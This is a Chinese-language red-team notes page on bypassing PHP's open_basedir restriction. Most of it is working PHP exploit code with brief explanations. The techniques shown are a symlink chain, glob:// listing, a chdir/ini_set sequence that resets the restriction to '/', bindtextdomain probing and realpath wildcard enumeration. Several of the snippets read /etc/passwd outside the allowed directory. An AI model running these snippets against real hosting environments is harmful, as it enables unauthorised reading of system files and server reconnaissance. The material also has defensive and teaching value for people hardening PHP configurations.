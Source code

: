 # bypass_open_basedir

---

**相关文章 & Source & Reference**
- [php中函数禁用绕过的原理与利用](https://mp.weixin.qq.com/s/_L379eq0kufu3CCHN1DdkA)

---

## 利用 symlink

通过建立软链达成 bypass

```php
<?php

symlink("abc/abc/abc/abc","templink2");
symlink("templink2/../../../../../etc/passwd","exploit");
unlink("templink2");
mkdir("templink2");

?>
```

首先是创建一个 link，将 tmplink 用相对路径指向 `abc/abc/abc/abc`，然后再创建一个 link，将 exploit 指向 `tmplink/../../../../etc/passwd`，此时就相当于 exploit 指向了 `abc/abc/abc/abc/../../../../etc/passwd` ，也就相当于 exploit 指向了 `/etc/passwd` ，此时删除 tmplink 文件后再创建 tmplink 目录，此时就变为 `/etc/passwd` 成功跨目录。

访问 exploit 即可读取到 `/etc/passwd`。

![](../../../../../assets/img/Security/RedTeam/语言安全/PHP安全/bypass_open_basedir/1.png)

---

## 利用 glob

通过查找匹配进行 bypass,不过只能列举根目录下的文件

```php
<?php
$c="glob:///*";
$a=new DirectoryIterator($c);
foreach ($a as $f){
    echo($f->__toString().'<br>');
}
?>
```

---

# chdir() 与 ini_set()

chdir 是更改当前工作路径

```php
<?php

mkdir('test');
chdir('test');
ini_set('open_basedir','..');
chdir('..');chdir('..');chdir('..');chdir('..');
ini_set('open_basedir','/');
echo file_get_contents('/etc/passwd');

?>
```

可以用如下代码观察一下其 bypass 过程
```php
<?php

ini_set('open_basedir','/www/wwwroot'.'/tmp');
mkdir('test');
chdir('test');
ini_set('open_basedir','..');
printf('open_basedir : %s </b><br />',ini_get('open_basedir'));
chdir('..');chdir('..');chdir('..');chdir('..');
ini_set('open_basedir','/');
printf('open_basedir : %s </b><br />',ini_get('open_basedir'));
//echo file_get_contents('/etc/passwd');

?>
```

---

# bindtextdomain

该函数的第二个参数为一个文件路径，先看代码：

```php
<?php

ini_set('open_basedir','/www/wwwroot'.'/tmp');

printf('open_basedir : %s </b><br />',ini_get('open_basedir'));
$re=bindtextdomain('xxx','/etc/passwd');
var_dump($re);
$re=bindtextdomain('xxx','/etc/passw');
var_dump($re);

?>
```

当文件不存在时返回值为 false，因为不支持通配符，该方法只能适用于 linux 下的暴力猜解文件。

---

# Realpath

同样是基于报错，但 realpath 在 windows 下可以使用通配符 `<` 和 `>` 进行列举

```php
<?php

ini_set('open_basedir',dirname(__FILE__));
printf('open_basedir : %s </b><br />',ini_get('open_basedir'));
set_error_handler('isexists');
$dir='d:/1earn/';
$file='';
$chars='abcdefghijklmnopqrstuvwxyz0123456789_';
for ($i=0;$i < strlen($chars);$i++){
    $file=$dir.$chars[$i].'<><';
    realpath($file);
}
function isexists($errno,$errstr){
    $regexp='/File\((.*)\) is not within/';
    preg_match($regexp,$errstr,$matches);
    if (isset($matches[1])){
        printf("%s <br/>",$matches[1]);
    }
}
?>
```
